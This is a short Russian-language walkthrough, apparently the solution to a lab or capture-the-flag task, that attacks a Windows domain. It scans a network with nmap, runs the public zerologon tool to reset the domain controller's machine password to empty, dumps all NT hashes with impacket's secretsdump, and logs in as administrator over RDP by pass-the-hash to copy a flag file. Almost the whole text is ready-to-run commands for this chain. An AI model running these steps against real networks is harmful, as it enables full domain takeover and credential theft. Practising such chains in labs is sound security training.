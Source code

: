 1.1. Сканируем сеть, узнаём ip-адрес контроллера домена и имя домена. <br>
sudo nmap --script whois-domain.nse 192.168.0.0/16 <br>
2.1. Скачиваем инструмент для zerologon <br>
git clone https://github.com/risksense/zerologon (может уже скачан у пользователя?) <br>
В Readme будет хорошее описание команды. <br>
2.2. Сделаем пароль таким, чтобы его хэш был равен: 31d6cfe0d16ae931b73c59d7e0c089c0 <br>
python3 set_empty_pw.py [domainname] [ipaddr] <br>
Где domainname – имя домена; <br>
Ipaddr – устройства, к которому подключаемся <br>
2.3. Воспользуемся новым паролем для дампа ntds: <br>
git clone https://github.com/SecureAuthCorp/impacket (может уже скачан у пользователя?) <br>
cd impacket/examples <br>
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 '[DOMAIN]/[DC_NETBIOS_NAME]$@[dc_ip_addr]' <br>
где DOMAIN – имя домена <br>
DC_NETBIOS_NAME – имя устройства, который атакуем <br>
dc_ip_addr – ip-адрес устройства, который атакуем <br>
Получаем NT-хэши, в частности и администратора. <br>
3.1. Подключимся по RDP: <br>
Шаблон команды: xfreerdp /d:[domainname] /u:[username] /v:[ipaddr] /pth:[NTHASH] <br>
Где domainname – имя домена; <br>
Username – логин администратора <br>
Ipaddr – устройства, к которому подключаемся <br>
NTHASH – NT(LM)-хэш пользователя <br>
Заходим на рабочий стол и копируем содержимое txt файла в ответ.
